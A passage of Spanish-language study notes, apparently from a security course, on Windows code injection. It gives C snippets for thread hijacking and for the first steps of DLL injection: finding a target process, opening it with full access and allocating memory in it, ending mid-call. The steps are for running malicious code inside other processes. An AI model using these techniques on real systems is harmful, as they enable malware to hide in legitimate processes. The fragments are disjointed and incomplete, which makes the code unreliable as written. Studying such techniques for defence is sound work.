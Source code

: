 ```
```
```
SuspendThread(hThread);
```
```
CONTEXT context;
GetThreadContext(
	hThread, // Handle for the thread 
	&context // Pointer to store the context structure
);
```

# Abusar DLls

En alto nivel las DLLs se dividen en 6 pasos

1. Localizr el target a injectar
2. Abrirlo
3. ALojar la memoria con el código malicioso
4. Escribir el codigo
5. Ejecutar

```
DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
			TH32CS_SNAPPROCESS, // Include all processes residing on the system
			0 // Indicates the current process
		);
    if (hSnapshot) {
        PROCESSENTRY32 entry; // Adds a pointer to the PROCESSENTRY32 structure
        entry.dwSize = sizeof(PROCESSENTRY32); // Obtains the byte size of the structure
        if (Process32First( // Obtains the first process in the snapshot
					hSnapshot, // Handle of the snapshot
					&entry // Pointer to the PROCESSENTRY32 structure
				)) {
            do {
                if (!strcmp( // Compares two strings to determine if the process name matches
									entry.szExeFile, // Executable file name of the current process from PROCESSENTRY32
									processName // Supplied process name
								)) { 
                    return entry.th32ProcessID; // Process ID of matched process
                }
            } while (Process32Next( // Obtains the next process in the snapshot
							hSnapshot, // Handle of the snapshot
							&entry
						)); // Pointer to the PROCESSENTRY32 structure
        }
    }

DWORD processId = getProcessId(processName); // Stores the enumerated process ID
```
```
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);
```
```
LPVOID dllAllocatedMemory = VirtualAllocEx(
	hProcess, // Handle for the target process
	NULL, 
	strlen(dllLibFullPath), // Size of the DLL path
	MEM_RESERVE | MEM_COMMIT, // Reserves and commits pages
```